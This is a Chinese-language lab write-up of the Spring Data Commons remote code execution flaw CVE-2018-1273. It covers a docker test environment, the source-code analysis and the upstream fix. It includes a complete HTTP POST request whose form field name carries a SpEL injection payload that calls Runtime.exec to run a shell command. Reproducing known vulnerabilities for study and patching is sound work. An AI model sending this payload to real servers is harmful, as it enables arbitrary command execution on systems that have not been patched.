






# Spring Data Commons 代码执行漏洞(CVE-2018-1273)

## 漏洞信息

 - [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273    】](https://xz.aliyun.com/t/2269)




漏洞影响版本：

- 2.0.x users should upgrade to 2.0.6
- 1.13.x users should upgrade to 1.13.11
- Older versions should upgrade to a supported branch


## 漏洞复现:

### 搭建环境

利用docker搭建环境

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_spring_2
 ```

2. 启动环境

 ```
$ docker run -d -p 8080:8080 medicean/vulapps:s_spring_2
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 漏洞复现

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

1. 访问 `http://192.168.10.128:8080/users`，测试服务是否启动成功

2. 发送如下数据包,执行命令为: `/bin/touch /tmp/nxin_test`

```
POST /users?page=&size=5 HTTP/1.1
Host: 192.168.10.128:8080
Proxy-Connection: keep-alive
Content-Length: 138
Cache-Control: max-age=0
Origin: http://192.168.10.128:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://192.168.10.128:8080/users
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/touch /tmp/nxin_test")]=test&password=test&repeatedPassword=test
```

然后会服务器端查看，文件创建成功




## 漏洞分析

定位到 org/springframework/data/web/MapDataBinder.java:174 。之所以定位到这里，官方的commit中在这里去除了StandardEvaluationContext，改用SimpleEvaluationContext。


可以看到这里的propertyName即我们传入的参数名，其中带有了payaload。



继续执行至187行，对其进行解析`parseExpression(propertyName)`



继续执行到217行，解析了spel表达式，成功执行calc.exe。



## 漏洞修补

以 spring-data-commons 2.0.6 版本为例
https://github.com/spring-projects/spring-data-commons/commit/ae1dd2741ce06d44a0966ecbd6f47beabde2b653



换用SimpleEvaluationContext，用于实现简单的数据绑定，保持灵活性减少安全隐患


## 参考链接

- [Spring Data Commons Remote Code Execution 分析-【CVE-2018-1273】](https://xz.aliyun.com/t/2269)
- https://docs.spring.io/spring-data/jpa/docs/current/reference/html/#projections